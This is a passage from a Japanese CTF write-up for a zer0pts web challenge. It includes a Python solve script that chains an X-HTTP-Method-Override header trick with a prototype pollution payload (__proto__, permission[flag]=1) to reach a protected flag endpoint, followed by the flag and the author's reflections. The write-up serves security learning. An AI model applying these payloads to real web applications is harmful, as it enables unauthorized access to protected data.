 ```python
def update_note(id: str, data):
    res = httpx.put(
        f"{API_BASE_URL}/api/post/{id}",
        data=data,
    )
    return res.json()


uuid1 = create_note("x", "x")

uuid2 = create_note("x", "x")
update_note(uuid2, {"headers[Content-Type]": "text/plain", "headers[X-HTTP-Method-Override]": "PUT", "title[x]": "", "content[x]": "", "like[x]": ""})

# botにいいねしてもらうpostのURL
print(f"{FRONTEND_BASE_URL}/#page=post&id={uuid1}")

# reportする文字列
print(f"{urllib.parse.quote(uuid1+'?title=x&content=x&permission[flag]=1#')},{uuid2},__proto__")

# report後にアクセスするURL
print(f"{API_BASE_URL}/api/post/{uuid1}/has_enough_permission_to_get_the_flag")
# -> {"flag":"zer0pts{tan_takatatontan_ton_takatatantatotan_8jOQmPx2Mjk}"}
```

### フラグ

```
zer0pts{tan_takatatontan_ton_takatatantatotan_8jOQmPx2Mjk}
```

### 感想

`X-HTTP-Method-Override`に気づくのに時間がかかってしまった。謎リクエストヘッダ問はたまに遭遇するけど、毎回気づくのに時間がかかってどうにかしたいです。というか、Webフレームワークにデフォルトで謎機能を有効にするのはやめてほしいというのが正直な気持ちです[^plain-blog-01]。

[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。

問題自体はおもしろかったです。prototype pollutionパズルで`PUT /api/post/:id`を利用し、リクエストメソッドの上書き先で再び`PUT /api/post/:id`を利用する点は、伏線回収みたいで問題の構成がきれいで良かったです。


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。